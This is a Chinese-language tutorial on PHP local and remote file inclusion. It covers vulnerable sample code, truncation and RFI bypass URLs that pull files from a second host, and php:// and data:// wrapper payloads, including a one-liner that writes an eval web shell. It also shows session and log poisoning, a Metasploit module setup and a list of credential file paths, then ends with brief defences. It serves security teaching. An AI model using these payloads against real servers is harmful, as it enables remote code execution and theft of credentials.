


# 文件包含漏洞简介
什么是文件包含漏洞？
程序开发人员通常会把可重复使用的函数写到单个文件中，在使用某些函数时，直接调用此文件，无需再次编写，这种调用文件的过程一般被称为文件包含。文件包含漏洞的成因
随着网站业务的需求，程序开发人员一般希望代码更灵活，所以将被包含的文件设置为变量，用来进行动态调用，用户可以对变量的值可控而服务器端未对变量值进行合理地校验或者校验被绕过，这样就导致了文件包含漏洞。通常文件包含漏洞出现在 PHP 语言中。- php 中常见包含文件的函数
- include () 当使用该函数包含文件时，只有代码执行到 include () 函数时才将文件包含进来，发生错误时之给出一个警告，继续向下执行。
- include_once () 功能与 Include () 相同，区别在于当重复调用同一文件时，程序只调用一次
- require () require () 与 include () 的区别在于 require () 执行如果发生错误，函数会输出错误信息，并终止脚本的运行。
- require_once () 功能与 require () 相同，区别在于当重复调用同一文件时，程序只调用一次
- php 中常见包含文件的函数
文件包含漏洞的分类
文件包含漏洞可以分为 RFI (远程文件包含) 和 LFI（本地文件包含漏洞）两种。而区分他们最简单的方法就是 php.ini 中是否开启了 allow_url_include。如果开启 了我们就有可能包含远程文件。
1、本地文件包含 LFI (Local File Include)
2、远程文件包含 RFI (Remote File Include)（需要 php.ini 中 allow_url_include=on、allow_url_fopen = On）
在 php.ini 中，allow_url_fopen 默认一直是 On，而 allow_url_include 从 php5.2 之后就默认为 Off。
文件包含漏洞的危害
- 配合文件上传漏洞 GetShell
- 可以执行任意脚本代码
- 网站源码文件以及配置文件泄露
- 远程包含 GetShell
- 控制整个网站甚至是服务器
# 常见漏洞环境
了解这些主要是为了绕过
<?php | |
if(isset($_GET[page])) | |
{ | |
include $_GET[page]; | |
} | |
else{ | |
include 'show.php'; | |
} | |
?> | |
<?php | |
if(isset($_GET[page])) | |
{ | |
include('./action/'.$_GET[page]); | |
} | |
else{ | |
include './action/show.php'; | |
} | |
?> | |
<?php | |
if(isset($_GET [page])) | |
{ | |
include('./action/'.$_GET[page].'.php'); | |
} | |
else{ | |
include './action/show.php'; | |
} | |
?> |
# 本地文件包含
# 无限制本地文件包含
这种直接找我们到需要的文件路径，进行包含就行。
示例
# 有限制本地文件包含
这种类型需要我们找到的敏感文件路径，然后绕过限制进行包含就行。
# %00 截断
条件：magic_quotes_gpc = Off php 版本 < 5.3.4
在上面常见环境代码的后两种都得用 %00 截断
示例http://www.xxx.com/xx.php?filename=../../etc/passwd%00
# 路径长度截断
条件：windows OS，点号需要长于 256；linux OS 长于 4096
Windows 下目录最大长度为 256 字节，超出的部分会被丢弃；
Linux 下目录最大长度为 4096 字节，超出的部分会被丢弃。
测试代码：
<?php | |
$filename = $_GET['filename']; | |
include($filename . ".html"); | |
?> |
http://www.ctfs-wiki.com/FI/FI.php?filename=test.txt/./././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././/././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././/././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././/././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././/./././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././
# 点号截断
条件：windows OS，点号需要长于 256
测试代码：
<?php | |
$filename = $_GET['filename']; | |
include($filename . ".html"); | |
?> |
http://www.ctfs-wiki.com/FI/FI.php?filename=test.txt.................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................
# 远程文件包含
PHP 的配置文件 allow_url_fopen 和 allow_url_include 设置为 ON，include/require 等包含函数可以加载远程文件，如果远程文件没经过严格的过滤，导致了执行恶意文件的代码，这就是远程文件包含漏洞。
allow_url_fopen = On（是否允许打开远程文件）
allow_url_include = On（是否允许 include/require 远程文件）
# 无限制远程文件包含
和无限制本地文件包含差不多。不再介绍（懒蛋。。）

# 有限制远程文件包含
测试代码：
<?php | |
include($_GET['filename']. ".html"); | |
?> |
代码中多添加了 html 后缀，导致远程包含的文件也会多一个 html 后缀。
# 绕过姿势
问号绕过
http://192.168.199.130/test.php?filename=http://192.168.199.131/php.txt?#号绕过
http://192.168.199.130/test.php?filename=http://192.168.199.131/php.txt%23空格 (%20) 绕过
http://192.168.199.130/test.php?filename=http://192.168.199.131/php.txt%20
# PHP 伪协议
PHP 带有很多内置 URL 风格的封装协议，可用于类似 fopen ()、 copy ()、 file_exists () 和 filesize () 的文件系统函数。 除了这些封装协议，还能通过 stream_wrapper_register () 来注册自定义的封装协议。
支持的种类有这 12 种
- file:// — 访问本地文件系统
- http:// — 访问 HTTP (s) 网址
- ftp:// — 访问 FTP (s) URLs
- php:// — 访问各个输入 / 输出流（I/O streams）
- zlib:// — 压缩流
- data:// — 数据（RFC 2397）
- glob:// — 查找匹配的文件路径模式
- phar:// — PHP 归档
- ssh2:// — Secure Shell 2
- rar:// — RAR
- ogg:// — 音频流
- expect:// — 处理交互式的流
# php:// 输入输出流
PHP 提供了一些杂项输入 / 输出（IO）流，允许访问 PHP 的输入输出流、标准输入输出和错误描述符， 内存中、磁盘备份的临时文件流以及可以操作其他读取写入文件资源的过滤器。
# php://stdin, php://stdout 和 php://stderr
php://stdin、php://stdout 和 php://stderr 允许直接访问 PHP 进程相应的输入或者输出流。 数据流引用了复制的文件描述符，所以如果你打开 php://stdin 并在之后关了它， 仅是关闭了复制品，真正被引用的 STDIN 并不受影响。 推荐简单使用常量 STDIN、 STDOUT 和 STDERR 来代替手工打开这些封装器。
php://stdin 是只读的，php://stdout 和 php://stderr 是只写的。
📣举例
- php://stdin
<?php | |
while($line = fopen('php://stdin','r')) | |
{//open our file pointer to read from stdin | |
echo $line."\n"; | |
echo fgets($line);// 读取 | |
} | |
?> |
可以看到打开了一个文件指针进行读取
- php://stdout
<?php | |
$fd = fopen('php://stdout', 'w'); | |
if ($fd) { | |
echo $fd."\n"; | |
fwrite($fd, "这是一个测试"); | |
fwrite($fd, "\n"); | |
fclose($fd); | |
} | |
?> |
可以看到打开了一个文件指针进行写入
- php://stderr
<?php | |
$stderr = fopen( 'php://stderr', 'w' ); | |
echo $stderr."\n"; | |
fwrite($stderr, "lalala" ); | |
fclose($stderr); | |
?> |
可以看到打开了一个文件指针进行写入
# php://input
php://input 是个可以访问请求的原始数据的只读流。因为它不依赖于特定的 php.ini 指令。
注：enctype=”multipart/form-data” 的时候 php://input 是无效的。
# php://input （读取 POST 数据）
碰到 file_get_contents () 就要想到用 php://input 绕过，因为 php 伪协议也是可以利用 http 协议的，即可以使用 POST 方式传数据，具体函数意义下一项；
测试代码
# 1.php文件 | |
<?php | |
echo file_get_contents("php://input"); | |
?> |
访问 http://192.168.199.130/1.php burp 抓包，添加 post 数据。
结果
# php://input 写马
测试代码
<?php | |
$file = $_GET['file']; | |
include($file); | |
?> |
条件：php 配置文件中需同时开启 allow_url_fopen 和 allow_url_include（PHP < 5.3.0）, 就可以造成任意代码执行，在这可以理解成远程文件包含漏洞（RFI），即 POST 过去 PHP 代码，即可执行。
如果 POST 的数据是执行写入一句话木马的 PHP 代码，就会在当前目录下写入一个木马。
<?PHP fputs(fopen('shell.php','w'),'<?php @eval($_POST[cmd])?>');?>
图片
当 allow_url_include=Off 时是不行的
# php://input 命令执行
测试代码：
<?php | |
$file = $_GET['file']; | |
include($file); | |
?> |
条件：php 配置文件中需同时开启 allow_url_fopen 和 allow_url_include（PHP < 5.30）, 就可以造成任意代码执行，在这可以理解成远程文件包含漏洞（RFI），即 POST 过去 PHP 代码，即可执行；
图片

# php://filter（本地磁盘文件进行读取）
元封装器，设计用于 "数据流打开" 时的 "筛选过滤" 应用，对本地磁盘文件进行读写。
用法：?filename=php://filter/convert.base64-encode/resource=xxx.php?filename=php://filter/read=convert.base64-encode/resource=xxx.php 一样。
条件：只是读取，需要开启 allow_url_fopen，不需要开启 allow_url_include；
php://filter 参数
| 名称 | 描述 | 备注 |
|---|---|---|
| resource=<要过滤的数据流> | 指定了你要筛选过滤的数据流。 | 必选 |
| read=<读链的筛选列表> | 可以设定一个或多个过滤器名称，以管道符（|）分隔。 | 可选 |
| write=<写链的筛选列表> | 可以设定一个或多个过滤器名称，以管道符（|）分隔。 | 可选 |
| <；两个链的筛选列表> | 任何没有以 read= 或 write= 作前缀 的筛选器列表会视情况应用于读或写链。 |
过滤器详解 https://blog.csdn.net/ni9htmar3/article/details/69812306#t8
# file:// 伪协议 (读取文件内容)
通过 file 协议可以访问本地文件系统，读取到文件的内容
测试代码：
<?php | |
$file = $_GET['file']; | |
include($file); | |
?> |
# data:// 伪协议
数据流封装器，和 php:// 相似都是利用了流的概念，将原本的 include 的文件流重定向到了用户可控制的输入流中，简单来说就是执行文件的包含方法包含了你的输入流，通过你输入 payload 来实现目的； data://text/plain;base64,dGhlIHVzZXIgaXMgYWRtaW4
data://（读取文件）
和 php 伪协议的 input 类似，碰到 file_get_contents () 来用；
注意：<span style="color: rgb (121, 121, 121);"><?php phpinfo ();, 这类执行代码最后没有？></span > 闭合；
如果 php.ini 里的 allow_url_include=On（PHP < 5.3.0）, 就可以造成任意代码执行，同理在这就可以理解成远程文件包含漏洞（RFI） 测试代码：
<?php | |
$file = $_GET['file']; | |
include($file); | |
?> |
payload: http://192.168.199.130/1.php?file=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOw==
# phar:// 伪协议
这个参数是就是 php 解压缩包的一个函数，不管后缀是什么，都会当做压缩包来解压。
用法：?file=phar:// 压缩包 / 内部文件 phar://xxx.png/shell.php。
注意： PHP > =5.3.0 压缩包需要是 zip 协议压缩，rar 不行，将木马文件压缩后，改为其他任意格式的文件都可以正常使用。
步骤： 写一个一句话木马文件 shell.php，然后用 zip 协议压缩为 shell.zip，然后将后缀改为 png 等其他格式。
测试代码：
<?php | |
$file = $_GET['file']; | |
include($file); | |
?> |
没有实验完成，先挖个坑。
# zip:// 伪协议
zip 伪协议和 phar 协议类似，但是用法不一样。
用法：?file=zip://[压缩文件绝对路径]#[压缩文件内的子文件名] zip://xxx.png#shell.php。
条件： PHP > =5.3.0，注意在 windows 下测试要 5.3.0<PHP<5.4 才可以 #在浏览器中要编码为 %23，否则浏览器默认不会传输特殊字符。
测试代码：
<?php | |
$file = $_GET['file']; | |
include($file); | |
?> |
没有实验完成，先挖个坑。
# 封装协议摘要
| 属性 | 支持 |
|---|---|
| 受限于 allow_url_include | 仅 php://input、 php://stdin、 php://memory 和 php://temp。 |
| 允许读取 | 仅 php://stdin、 php://input、 php://fd、 php://memory 和 php://temp。 |
| 允许写入 | 仅 php://stdout、 php://stderr、 php://output、 php://fd、 php://memory 和 php://temp。 |
| 允许追加 | 仅 php://stdout、 php://stderr、 php://output、 php://fd、 php://memory 和 php://temp（等于写入） |
| 允许同时读写 | 仅 php://fd、 php://memory 和 php://temp。 |
| 支持 stat() | 仅 php://memory 和 php://temp。 |
| 仅仅支持 stream_select() | php://stdin、 php://stdout、 php://stderr、 php://fd 和 php://temp。 |
# 文件包含姿势
# 文件包含 session
利用条件：
session 的存储位置可以获取。
- 通过 phpinfo 的信息可以获取到 session 的存储位置。
通过 phpinfo 的信息，获取到 session.save_path 为 /var/lib/php5/：
- 另一种只能猜测了
根据各版本的中间件猜测。
session 中的内容可以被控制，传入恶意代码。
<?php | |
session_start(); | |
$s=$_GET['str']; | |
$_SESSION["s"]=$s; | |
?> |
漏洞分析
此 php 会将获取到的 GET 型 ctfs 变量的值存入到 session 中。
当访问 http://www.xxx.com/x.php?str=666 后，会在 /var/lib/php5 目录下存储 session 的值。
session 的文件名为 sess_+sessionid，sessionid 可以通过开发者模式获取。
所以 session 的文件名为 sess_88565500f4af7f5e934c59c0ba643a60
到服务器的 /var/lib/php/session 目录下查看果然存在此文件，内容为：
可以看到 666 已经存里面了
漏洞利用
通过上面的分析，可以知道 str 传入的值会存储到 session 文件中，如果存在本地文件包含漏洞，就可以通过 str 写入恶意代码到 session 文件中，然后通过文件包含漏洞执行此恶意代码 getshell。
当访问 http://www.xxx.com/x.php?str=<?php phpinfo ();?> 后，会在 /var/lib/php5 目录下存储 session 的值。
结果
# 文件包含日志
利用条件：需要知道服务器日志的存储路径，且日志文件可读。
很多时候，web 服务器会将请求写入到日志文件中，比如说 apache。在用户发起请求时，会将请求写入 access.log，当发生错误时将错误写入 error.log。默认情况下，日志保存路径在 /var/log/apache2/。
💔必须要更改数据包的访问请求才行，不然在日志文件里会被转码。
示例
✔️还可以在 User-Agent 里插入 payload
💔有的日志文件里不一定会显示 UA 信息
示例
这是因为 Apache 配置
详情见：https://self-ferry.github.io/2021/01/22/apache 访问日志详解【转】/
# MSF 攻击模块
use exploit/unix/webapp/php_include | |
set rhost 192.168.199.12 | |
set rport 80 | |
set phpuri /index.php?file=xxLFIxx | |
set path http://192.168.199.147/ | |
set payload php/meterpreter/bind_tcp | |
set srvport 8888 | |
exploit -z |
# 常见的敏感信息路径
# Windows 系统
c:\boot.ini// 查看系统版本
c:\windows\system32\inetsrv\MetaBase.xml// IIS 配置文件
c:\windows\repair\sam // 存储 Windows 系统初次安装的密码
c:\ProgramFiles\mysql\my.ini// MySQL 配置
c:\ProgramFiles\mysql\data\mysql\user.MYD// MySQL root 密码
c:\windows\php.ini//php 配置信息
# Linux/Unix 系统
/etc/passwd// 账户信息
/etc/shadow// 账户密码文件
/usr/local/app/apache2/conf/httpd.conf// Apache2 默认配置文件
/usr/local/app/apache2/conf/extra/httpd-vhost.conf// 虚拟网站配置
/usr/local/app/php5/lib/php.ini// PHP 相关配置
/etc/httpd/conf/httpd.conf// Apache 配置文件
/etc/my.conf//mysql 配置文件
# 日志默认路径
apache+Linux 日志默认路径
/etc/httpd/logs/access_log
或者
/var/log/httpd/access log
apache+win2003 日志默认路径
D:/xampp/apache/logs/access.log
D:/xampp/apache/logs/error.log
IIS6.0+win2003 默认日志文件
C:/WINDOWS/system32/Logfiles
IIS7.0+win2003 默认日志文件
%SystemDrive%/inetpub/logs/LogFiles
nginx 日志文件在用户安装目录的 logs 目录下
如安装目录为 /usr/local/nginx, 则日志目录就是在
/usr/local/nginx/logs
也可通过其配置文件 Nginx.conf，获取到日志的存在路径
/opt/nginx/logs/access.log
web 中间件默认配置
apache+linux 默认配置文件
/etc/httpd/conf/httpd.conf
或者
index.php?page=/etc/init.d/httpd
IIS6.0+win2003 配置文件
C:/Windows/system32/inetsrv/metabase.xml
IIS7.0+WIN 配置文件
C:/Windows/System32/inetsrv/config/application/Host.config
# 文件包含漏洞的防御
- PHP 中使用 open_basedir 配置限制访问在指定的区域
- 过滤.（点）/（反斜杠）\（反斜杠）
- 禁止服务器远程文件包含
# 参考
https://www.freebuf.com/articles/web/182280.html
https://www.php.cn/toutiao-414790.html
https://blog.csdn.net/ni9htmar3/article/details/69812306